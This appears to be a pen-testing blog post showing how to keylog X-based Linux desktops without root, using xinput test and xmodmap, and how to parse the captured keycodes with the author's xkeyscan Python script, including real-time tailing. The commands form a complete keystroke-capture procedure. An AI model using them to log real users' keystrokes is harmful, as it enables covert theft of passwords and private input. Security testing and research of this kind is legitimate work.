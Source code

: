 ```yaml
---
layout: page
title:  "Using xkeyscan to Parse an X-Based Linux Keylogger"
teaser: "Leverage native X-based tools for real-time keylogging with xkeyscan, a Python script that translates X keycodes into legible keystrokes."
categories:
    - blog
tags:
    - linux
    - pen-testing
    - python
    - scripting
header: no
image:
    title: photo-keyboard.jpg
    thumb: photo-keyboard-thumb.jpg
author: porterhau5
---
```

### Background
A colleague of mine, Sanjiv Kawa, came across a nifty technique for capturing the keystrokes of users on an X-based system. I encourage you to check out <a href="https://popped.io/natively-keylogging-nix-systems/" target="_blank">his post here</a>, where Sanjiv walks through the process of using `xinput` to find input devices and then sets up the keylogger for capture. It's a particularly useful technique against those utilizing GNOME, KDE, or Xfce desktop environments, common on many *nix systems. It has the added bonus of not requiring root privileges to pull off.

For archival's sake, the process boils down to:

1. `xinput list` - list potential input devices
2. Find the XID of the keyboard to monitor
3. `xinput test <XID>` - display input from the device

XID is the "id" number associated with the desired keyboard input device. On my lab machine, this would be id 12:
{% highlight html %}
⎡ Virtual core pointer                 	id=2	[master pointer  (3)]
⎜   ↳ Virtual core XTEST pointer     	id=4	[slave  pointer  (2)]
⎜   ↳ Razer Razer Naga 2014          	id=8	[slave  pointer  (2)]
⎜   ↳ Razer Razer Naga 2014          	id=9	[slave  pointer  (2)]
⎣ Virtual core keyboard                	id=3	[master keyboard (2)]
    ↳ Virtual core XTEST keyboard      	id=5	[slave  keyboard (3)]
    ↳ Power Button                     	id=6	[slave  keyboard (3)]
    ↳ Video Bus                        	id=7	[slave  keyboard (3)]
    ↳ Razer Razer Naga 2014            	id=10	[slave  keyboard (3)]
    ↳ gpio-keys                        	id=11	[slave  keyboard (3)]
    ↳ porterhau5’s Keyboard            	id=12	[slave  keyboard (3)]
{% endhighlight %}

Now, the output produced by `xinput test <XID>` isn't quite the final output we're looking for. Instead of the characters typed by the user, the result is a series of **keycodes**. This is the output from typing "nano":
{% highlight html %}
$ script -c "xinput test 12" /dev/null
key press 57
key release 57
key press 38
key release 38
key press 57
key release 57
key press 32
key release 32
{% endhighlight %}

How can these keycodes be translated to something more legible? Well, first we need the system's device mapping of **keycodes-to-keysyms**, called a **keymap**. This is obtainable via `xmodmap -pke`:
{% highlight html %}
$ xmodmap -pke | head -n20
keycode   8 =
keycode   9 = Escape NoSymbol Escape
keycode  10 = 1 exclam 1 exclam exclamdown U2044
keycode  11 = 2 at 2 at trademark EuroSign
keycode  12 = 3 numbersign 3 numbersign sterling U2039
keycode  13 = 4 dollar 4 dollar cent U203A
keycode  14 = 5 percent 5 percent infinity UFB01
keycode  15 = 6 asciicircum 6 asciicircum section UFB02
keycode  16 = 7 ampersand 7 ampersand paragraph doubledagger
keycode  17 = 8 asterisk 8 asterisk enfilledcircbullet degree
keycode  18 = 9 parenleft 9 parenleft ordfeminine periodcentered
keycode  19 = 0 parenright 0 parenright masculine singlelowquotemark
keycode  20 = minus underscore minus underscore endash emdash
keycode  21 = equal plus equal plus notequal plusminus
keycode  22 = BackSpace BackSpace BackSpace BackSpace
keycode  23 = Tab ISO_Left_Tab Tab ISO_Left_Tab
keycode  24 = q Q q Q oe OE
keycode  25 = w W w W U2211 doublelowquotemark
keycode  26 = e E e E dead_acute acute
keycode  27 = r R r R registered U2030
{% endhighlight %}

Notice how the keymap has multiple keysym columns for each keycode - this is due to modifiers (Shift, Alt, etc.) No modifier will return the keysym in the first column. The Shift modifier will return the keysym in the second column, and so on. More details about xmodmap and modifiers can be found <a href="https://wiki.archlinux.org/index.php/Xmodmap" target="_blank">here</a>.

The next logical step is to leverage this keymap to automate the keycode-to-keysym conversion process.

### xkeyscan
What I ended up creating was a fairly simple Python script called "xkeyscan" which can be found <a href="https://github.com/porterhau5/xkeyscan" target="_blank">here on GitHub</a>.

{% highlight html %}
$ python xkeyscan.py -h
Usage: python [-u] xkeyscan.py [LOGFILE]

A simple script for converting xinput output to legible keystokes.
Can process a log file directly when passed as an argument, or can
convert keystrokes in near real-time if tailing a log file.
If tailing a log file, use python's -u switch to avoid buffering.

Examples:
  python xkeyscan.py xkey.log (post-process log file)
  cat xkey.log | python xkeyscan.py (accept logs from stdin)
  tail -f -n +1 xkey.log | python -u xkeyscan.py (tail log file)

Type -h or --help for a full listing of options.
{% endhighlight %}

I've built in some logic to account for modifier keys, such as Shift or Alt, so the parser will correctly determine things like case-sensitivity and special characters.

The script can be used a handful of ways depending upon how you'd prefer to feed data into it. For the following examples, data is stored to a file called `xkey.log` using the following syntax:
{% highlight html %}
$ script -c "xinput test <XID>" /dev/null > xkey.log
{% endhighlight %}

xkeyscan can parse the file directly:
{% highlight html %}
$ python xkeyscan.py xkey.log
nano tmp
Test@ <Back> !
{% endhighlight %}

Or read from stdin:
{% highlight html %}
$ cat xkey.log | python xkeyscan.py
nano tmp
Test@ <Back> !
{% endhighlight %}

Or parse in real-time:
{% highlight html %}
$ tail -f -n +1 xkey.log | python -u xkeyscan.py
nano tmp
Test@ <Back> !
{% endhighlight %}

Note the usage of python's `-u` switch on the last command. This disables python's default buffer, allowing for data to be parsed as it's streamed in. The switch is necessary for real-time parsing when tailing a log file, otherwise the data doesn't get parsed until python's buffer is flushed (for example with a CTL-C or CTL-D.)

Here's the tool in action:

  - Capturing is done in the right terminal (using `tee` to verify output)
  - Keystrokes being captured were performed in the top-left terminal
  - xkeyscan is tailing and parsing xkey.log in the bottom-left terminal

<a href="{{ site.urlimg }}xkeyscan-ss.png" target="_blank"><img src="{{ site.urlimg }}xkeyscan-ss.png"></a>

In its current iteration, the xmodmap legend is statically set. If a system's keymap differs, the codes array near the top of xkeyscan.py will need to be adjusted accordingly. My plan for v2 is for the script to take `xmodmap -pke` as input and dynamically generate the appropriate codes. Could even take it a step further and create an all-in-one tool for finding the appropriate device, starting the keylogger, and printing out the parsed result. If you'd like to tackle these changes yourself, feel free to send a <a href="https://github.com/porterhau5/xkeyscan" target="_blank">pull request</a>!

#### Share
<ul class="share-buttons">
  <li><a href="https://twitter.com/intent/tweet?source=http%3A%2F%2Fporterhau5.com%2Fblog%2Fxkeyscan-parse-linux-keylogger%2F&text=Using%20xkeyscan%20to%20Parse%20an%20X-Based%20Linux%20Keylogger:%20http%3A%2F%2Fporterhau5.com%2Fblog%2Fxkeyscan-parse-linux-keylogger%2F&via=porterhau5" target="_blank" title="Tweet"><img alt="Tweet" src="{{ site.urlimg }}flat_web_icon_set/black/Twitter.png"></a></li>
  <li><a href="http://www.reddit.com/submit?url=http%3A%2F%2Fporterhau5.com%2Fblog%2Fxkeyscan-parse-linux-keylogger%2F&title=Using%20xkeyscan%20to%20Parse%20an%20X-Based%20Linux%20Keylogger" target="_blank" title="Submit to Reddit"><img alt="Submit to Reddit" src="{{ site.urlimg }}flat_web_icon_set/black/Reddit.png"></a></li>
  <li><a href="https://getpocket.com/save?url=http%3A%2F%2Fporterhau5.com%2Fblog%2Fxkeyscan-parse-linux-keylogger%2F&title=Using%20xkeyscan%20to%20Parse%20an%20X-Based%20Linux%20Keylogger" target="_blank" title="Add to Pocket"><img alt="Add to Pocket" src="{{ site.urlimg }}flat_web_icon_set/black/Pocket.png"></a></li>
  <li><a href="https://www.facebook.com/sharer/sharer.php?u=http%3A%2F%2Fporterhau5.com%2Fblog%2Fxkeyscan-parse-linux-keylogger%2F&t=Using%20xkeyscan%20to%20Parse%20an%20X-Based%20Linux%20Keylogger" title="Share on Facebook" target="_blank"><img alt="Share on Facebook" src="{{ site.urlimg }}flat_web_icon_set/black/Facebook.png"></a></li>
</ul>
